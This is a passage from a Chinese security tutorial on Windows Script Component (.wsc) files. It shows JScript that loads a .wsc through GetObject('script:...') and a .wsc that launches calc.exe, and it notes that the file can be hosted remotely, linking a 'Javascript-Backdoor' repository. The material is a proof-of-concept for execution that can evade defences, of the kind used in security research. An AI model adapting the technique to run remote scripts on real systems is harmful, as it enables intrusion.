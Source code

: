 通过如下js代码即可调用脚本中的Sum函数：

```
var ref = GetObject("script:C:\\testwsc\\test.wsc");
var x = ref.Sum(4,6);
WScript.Echo(x);

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/8485f10780cbb9d0a89bfdbd774ecf4062fe1263.jpg)

**注：**  
wsc文件的后缀名可以任意

2、本地启动计算器
---------

以上内容和sct文件似曾相识，所以我们可以把里面的功能修改为启动一个计算器

wsc文件如下：

```
<?xml version="1.0"?>    

<package>
<component id="testCalc">    

<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
]]>
</script>    

</component>
</package>

```

对应的js文件可简化为：

```
GetObject("script:C:\\testwsc\\test.wsc");

```

执行后如图：

![Alt text](http://drops.javaweb.org/uploads/images/952a1949902271922eade850cb6e387cc115f4c5.jpg)

3、远程启动计算器
---------

**——**如果把wsc文件放到服务器上面呢？**——**当然可以正常执行。

地址如下：[https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test](https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test)
